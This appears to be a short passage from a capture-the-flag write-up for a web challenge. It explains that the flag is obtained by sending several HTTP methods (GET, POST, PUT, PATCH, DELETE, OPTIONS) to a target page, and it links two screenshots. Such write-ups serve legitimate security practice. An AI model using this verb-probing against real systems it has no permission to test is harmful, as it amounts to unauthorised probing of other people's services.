[](get.png)

So it turns out based on the name of the challenge that we just need to use multiple HTTP Methods on the interesting page in order get the flag, including:

```
GET
POST
PUT
PATCH
DELETE
OPTIONS
```
[](methodflag.png)

